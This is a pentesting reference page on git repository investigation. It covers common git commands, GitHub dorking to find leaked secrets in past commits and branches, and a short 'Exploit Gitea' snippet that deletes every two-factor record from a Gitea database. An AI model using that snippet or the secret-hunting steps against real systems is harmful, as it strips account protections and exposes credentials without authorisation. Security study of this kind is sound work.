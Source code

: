 ```yaml
---
title: Git GitHub Pentesting
desc: A software for tracking changes in any sets of files. It’s also used with GitHub usually.
tags: [Git, GitHub, Recon, Repo]
alts: []
render_with_liquid: false
---
```


## Git Commands for the Repository Investigation

- **Check Information**

    ```sh
    # Basic information
    git show
    git show <branch-name>
    git show <commit-id>
    git show <tag-name>

    # Configuration
    git config --list

    # Commit history
    git log
    git log --stat

    # Compare the two commits
    git diff
    git diff --staged
    git diff --cached

    # Working tree status
    git status
    ```

- **Back to the Previous Commits**

    ```sh
    # You can get the "commit-id" by 'git log'
    git checkout <commit-id>

    # Return the recent commit
    git checkout master
    git checkout main
    ```

- **Search the Other Branches**

    For getting all branches.

    ```sh
    git branch -a
    ```

    Btw, for creating a new branch.
    
    ```
    git branch new-branch
    ```

- **Clone the Repository**

    ```sh
    git clone https://github.com/username/repo.git

    # via SSH
    git clone ssh://git-user@10.0.0.1/path/to/repo
    git clone ssh://git-user@10.0.0.1/path/to/repo.git
    ```

- **Find Tags**

    ```sh
    # List tags
    git tag
    git tag -l

    # Show the contents of the specific tag
    git show <tag-name>
    ```

- **Restore Deleted Files**

    First off, check deleted files.

    ```sh
    git status
    ```

    Then restore them.

    ```sh
    git restore <a-deleted-file>
    ```

<br />

## GitHub Dorks

1. **Search Target Repository**

    You may be able to get the desired repository by searching in the Google.  

    The searching word is like "<target-name> github".

2. **Find Sensitive Data in the Repository**

    If you can access to the GitHub repository, research files and find the sensitive information. For example:

    - Hard-coded contents
    - Past commits
    - Deleted files in past commits
    - Commit messages
    - Email address which may leak sensitive information about personal accounts
    - Different branches

    For more details, see the [github-dorks](https://github.com/techgaun/github-dorks){:target="_blank"}{:rel="noopener"}.

<br />

## Exploit Gitea

1. **Delet the Two-Factor**

    ```sh
    victim@machine:/gitea/gitea$ python3

    >>> import sqlite3
    >>> conn=sqlite3.connect('gitea.db')
    >>> conn.execute('delete from two_factor')
    >>> conn.commit()
    >>> conn.close()
    ```